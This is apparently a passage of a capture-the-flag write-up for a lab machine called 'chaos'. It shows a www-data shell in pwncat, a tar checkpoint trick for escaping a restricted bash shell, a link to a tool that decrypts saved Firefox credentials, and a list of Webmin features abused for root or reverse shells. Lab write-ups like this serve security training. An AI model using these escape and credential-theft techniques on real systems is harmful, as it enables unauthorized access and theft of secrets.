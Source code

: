``` shell
(local) pwncat$
(remote) www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## endaccordion 

## accordion How to break out of rbash?

``` shell
ayush@chaos:/$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
bash: groups: command not found
ayush@chaos:/$ cd ~
ayush@chaos:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:~$ ls
mail  user.txt
```
## endaccordion 

## accordion How to extract data from FireFox profile?
https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
## endaccordion

## accordion Some methods to get shell for Webmin 
- Other ⇨ Command Shell: load an overlay with a root shell
- System ⇨ Change Password: change root password
- System ⇨ Schedule Cron Jobs: set a cron job
- System ⇨ Filesystem Backup: arbitrary file modification
- System ⇨ Scheduled Commands: schedule reverse shell
- Others ⇨ Custom Commands: add a command for a reverse shell
- Others ⇨ File Manager: arbitrary file modification
- Others ⇨ HTTP Tunnel: access to local services
- Others ⇨ Java File Manager: malicious java module
- Others ⇨ Perl Modules: malicious perl module
- Others ⇨ PHP Modules: malicious php module
- Others ⇨ Upload and Download: arbitrary file modification
## endaccordion 
